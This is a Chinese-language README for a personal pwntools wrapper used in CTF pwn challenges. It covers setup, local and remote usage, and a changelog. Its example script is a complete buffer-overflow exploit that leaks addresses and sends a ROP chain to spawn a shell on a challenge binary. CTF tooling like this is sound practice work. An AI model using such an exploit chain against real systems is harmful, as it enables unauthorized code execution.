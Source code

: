 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单, 把下面的pwntools.py放到`~/.local/lib/python3.X/site-packages`, Python默认导包的路径就行了

随便写了一个脚本用例来参考一下

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

init("./buffer_fly")    # 调用init函数,每次只需要调用这个就可以开始写题了,必要的参数是文件名！

sla("name", "")

ru("your name:")
rl()

close_plt = pwnio.elf.plt["close"]    # 注意要调用pwnio这个类中的elf,也可以使用pwnio["elf"].plt["close"]

true_close_plt = i16(hex(uu64(ru("\n"))) + "0a") - 10
info(true_close_plt)
base = true_close_plt - (0x55765683C100 - 0x55765683B000)
info(base)

pop_rdi_ret = 0x0000000000001423 + base
ret = 0x000000000000101A + base

sa("age", b"/bin/sh|")
ru("your age:")
stack = l64()   # l64是一个封装好的接受\x7f开头的64位地址

info(f"stack --> {hex(stack)}")

bin_sh = stack + (0x7FFC4757AF40 - 0x7FFC4757B060)
back_door = base + 0x129D

payload = (
    b"sh 0>&2 ".ljust(0x28, b"a")
    + p64(pop_rdi_ret)
    + p64(bin_sh)
    + p64(back_door)
    + p64(0)
)

dbg()   # 调用gdb.attach, 如果是远程, 那么就不会执行

sa("number", payload)
sl("sh 1>&2")

ia()    # 交互
```

## 更新日志
- 2022.9.4
  - 配置了部分常用函数
- 2022.9.22
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法
- 2022.11.19
  - 新增`libcpatcher.py`文件，用于一键修改elf文件的libc
  - 新增了leak函数，使用leak获取地址的同时在控制台打印泄露的地址
  - 更新了i16和i10函数，可以传入bytes或者str类型
  - 修改默认开启过滤 `Text is not bytes` 的警告